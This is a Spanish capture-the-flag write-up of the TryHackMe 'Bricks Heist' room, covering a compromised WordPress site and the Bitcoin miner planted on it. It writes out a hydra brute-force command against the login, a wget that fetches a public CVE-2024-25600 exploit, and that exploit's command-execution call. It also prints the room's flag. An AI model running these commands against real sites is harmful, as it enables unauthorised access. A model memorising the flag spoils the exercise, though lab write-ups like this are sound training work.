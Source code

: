 ```yaml
---
title: "trikc"
platform: "THM"
publishedAt: 2025-05-09
cover: "/images/ctf/nota2-cover.webp"
preview: "vbrgbrgbhhrtbr"
tags: [rockyou, Hydra]
link: "pruweba.link"
---
```


---


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](/images/ctf/nota2-0.webp)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


---


## 🐚 Post-explotación


Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
CopyEdit
THM{fl46_650c844110baced87e1606453b93f22a}
```


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
bash
CopyEdit
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
css
CopyEdit
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
makefile
CopyEdit
ID: WW1NeGNY...
```


---


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (dos veces), obtenemos:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


---


## 🕵️ Asociación con grupo de amenazas


Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.


---


## ✅ Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

**Una práctica redonda** para cualquier profesional de ciberseguridad ofensiva o defensiva.

